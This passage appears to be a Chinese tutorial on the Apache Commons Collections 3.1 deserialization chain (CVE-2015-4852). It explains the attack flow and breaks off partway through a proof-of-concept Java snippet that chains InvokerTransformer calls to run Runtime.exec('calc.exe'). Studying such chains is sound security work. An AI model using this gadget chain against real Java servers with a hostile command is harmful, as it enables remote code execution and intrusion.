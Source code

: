## 简介
Commons Collections的利用链也被称为cc链，在学习反序列化漏洞必不可少的一个部分。Apache Commons Collections是Java中应用广泛的一个库，包括Weblogic、JBoss、WebSphere、Jenkins等知名大型Java应用都使用了这个库。
了解反射机制的话，我们会发现若存在一个固有的反射机制时，输入可控，就可能形成任意函数调用的情况，具有极大的危害。但实际上真的有存在这种情况：这就是commons-collections-3.1 jar包，cve编号：cve-2015-4852
在开始之前我们需要理一下反序列化漏洞的攻击流程：

1. 客户端构造payload(有效载荷)，并进行一层层的封装，完成最后的exp（exploit-利用代码）
2. exp发送到服务端，进入一个服务端自主复写（也可能是也有组件复写）的readobject函数，它会反序列化恢复我们构造的exp去形成一个恶意的数据格式exp_1（剥去第一层）
3. 这个恶意数据exp_1在接下来的处理流程(可能是在自主复写的readobject中、也可能是在外面的逻辑中)，会执行一个exp_1这个恶意数据类的一个方法，在方法中会根据exp_1的内容进行函数处理，从而一层层地剥去（或者说变形、解析）我们exp_1变成exp_2、exp_3......
4. 最后在一个可执行任意命令的函数中执行最后的payload，完成远程代码执行。

那么以上大概可以分成三个主要部分：

1. payload：需要让服务端执行的语句：比如说弹计算器还是执行远程访问等；我把它称为：payload
2. 反序列化利用链：服务端中存在的反序列化利用链，会一层层拨开我们的exp，最后执行payload。(在此篇中就是commons-collections利用链)
3. readObject复写利用点：服务端中存在的可以与我们漏洞链相接的并且可以从外部访问的readObject函数复写点；我把它称为readObject复写利用点（自创名称...）
## commons-collections-3.1
首先来看看[commons-collections项目](http://commons.apache.org/proper/commons-collections/index.html)吧
官网第一段：
> Java commons-collections是JDK 1.2中的一个主要新增部分。它添加了许多强大的数据结构，可以加速大多数重要Java应用程序的开发。从那时起，它已经成为Java中公认的集合处理标准。

Apache Commons Collections是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强有力的数据结构类型并且实现了各种集合工具类。作为Apache开源项目的重要组件，Commons Collections被广泛应用于各种Java应用的开发。
它是一个基础数据结构包，同时封装了很多功能，其中我们需要关注一个功能：
> - Transforming decorators that alter each object as it is added to the collection
> - 转化装饰器：修改每一个添加到collection中的object

Commons Collections实现了一个TransformedMap类，该类是对Java标准数据结构Map接口的一个扩展。该类可以在一个元素被加入到集合内时，自动对该元素进行特定的修饰变换，具体的变换逻辑由Transformer类定义，Transformer在TransformedMap实例化时作为参数传入。
`org.apache.commons.collections.Transformer`这个类可以满足固定的类型转化需求，其转化函数可以自定义实现，我们的漏洞触发函数就是在于这个点。
漏洞复现需要下载3.1版本源码[3.1版本的下载地址](https://archive.apache.org/dist/commons/collections/),进去寻觅一下源码和jar包都有。
由于没有找到漏洞版本3.1的api说明，我们可以参考[3.2.2的api文档](http://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/index.html)
首先创建一个项目，将已下载的`Commons-Collections-3.1.jar`  导入到项目中，如下所示
![image.png](./Commons Collections1分析前置知识.assets/2023_05_19_10_37_47_4VzOwdUq.png)
## POC分析
这里是[啦啦0咯咯](https://xz.aliyun.com/t/7031) 大哥提供的poc，在导入了`Commons-Collections-3.1.jar`的包之后，就能执行成功了
```java
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
```